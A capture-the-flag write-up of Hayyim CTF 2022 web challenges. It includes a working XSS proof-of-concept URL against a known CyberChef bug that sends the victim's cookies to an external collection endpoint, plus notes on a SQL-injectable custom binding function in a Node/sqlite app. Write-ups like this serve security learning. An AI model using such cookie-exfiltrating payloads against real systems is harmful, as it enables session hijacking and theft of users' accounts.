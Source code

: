 <img src="https://github.com/P0cas/Storage/blob/main/write%20up/ctf/2022/Hayyim%20CTF%202022/hayyim%20CTF%202022.png?raw=true" style="width: 100%;
        max-width: 100%;
        height: auto;">

This weekend, Hayyim Security hosted the CTF, and I participated in it for about 3 ~ 4 hours and I was solved Cyberchef, Not E and Cyber Headchef challenges.

---
## (Web) Cyberchef [100 pts]

The Cyberchef is a simple XSS challenge. Cyberchef service is open source that provides encryption/decryption service and has 1-Day vulnerability.

```plaintext
http://cyberchef:8000/#recipe=Scatter_chart('Line%20feed','Space',false,'','','red"><script>fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/".concat(document.cookie))</script>',100,false)&input=MTAwLCAxMDA
```
1-Day issues can be found [here](https://github.com/gchq/CyberChef/issues/1265). And I was able to get the flag by sending the above PoC to the admin bot.

```plaintext
FLAG : hsctf{fa98fe3d32b4302aff1c322c925238a9d935b636f265cbfdd798391ca9c5a905}
```

---
## (Web) Not E [158 pts]

The Not E challenge is a SQL Injection issue. In this problem, we are using our own binding function, not the Prepared Binding function provided by sqlite of Node, and this function has a vulnerability.

```javascript
const sqlite3 = require('sqlite3');
const flag = require('fs').readFileSync('/flag').toString();

class Database {
  constructor(filename) {
    this.db = new sqlite3.Database(filename);

    this.db.serialize(() => {
      this.run('create table members (username text, password text)');
      this.run('create table posts (id text, title text, content text, owner text)');
      this.run('create table flag (flag text)');
      this.run('insert into flag values (?)', [ flag ]);
    });
  }
// (skip..)
```
I could see the FLAG were stored in a table called `flag`. So, in order to solve this challenge, we have to use SQL Injection to leak the flags contained in the table. Otherwise, read the /flag file using RCE, but this is not possible. Therefore, we should focus on SQL Injection.

